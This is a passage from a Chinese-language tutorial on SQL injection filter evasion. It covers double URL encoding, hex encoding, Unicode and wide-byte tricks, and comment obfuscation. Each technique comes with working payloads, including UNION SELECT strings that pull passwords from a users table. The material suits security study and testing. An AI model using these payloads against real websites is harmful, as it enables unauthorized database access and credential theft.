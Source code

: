 普通的 URL 编码可能无法实现绕过不过存在某种情况 URL 编码只进行了一次解码过滤可以用两次编码绕过

```
page.php?id=1%252f%252a*/UNION%252f%252a/SELECT 
```

#### 2.十六进制编码

```
z.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4,SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61)) 
```

示例代码中前者是对单个字符十六进制编码后者则是对整个字符串编码对整个字符串编码相对来说较少见一点

#### 3.Unicode 编码

Unicode 有所谓的标准编码和非标准编码假设我们用的 utf-8 为标准编码那么西欧语系所使用的就是非标准编码了

看一下常用的几个符号的一些 Unicode 编码

```
单引号：%u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7

空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0

左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8

右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9 
```

举例：

```
?id=10%D6'%20AND%201=2%23　　

SELECT 'Ä'='A'; #1 
```

两个示例中，前者利用双字节绕过，比如对单引号转义操作变成\'，那么就变成了%D6%5C'，%D6%5C 构成了一个款字节即 Unicode 字节，单引号可以正常使用。

第二个示例使用的是两种不同编码的字符的比较，它们比较的结果可能是 True 或者 False，关键在于 Unicode 编码种类繁多，基于黑名单的过滤器无法处理所以情况，从而实现绕过。

另外平时听得多一点的可能是 utf-7 的绕过，还有 utf-16、utf-32 的绕过，后者从成功的实现对 google 的绕过，有兴趣的朋友可以去了解下。

常见的编码当然还有二进制、八进制，它们不一定都派得上用场，但后面会提到使用二进制的例子。

### d) 使用注释

看一下常见的用于注释的符号有哪些

```
//, -- , /**/, #, --+,--  -, ;--a 
```

#### 1.普通注释

```
z.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4
'union%a0select pass from users# 
```
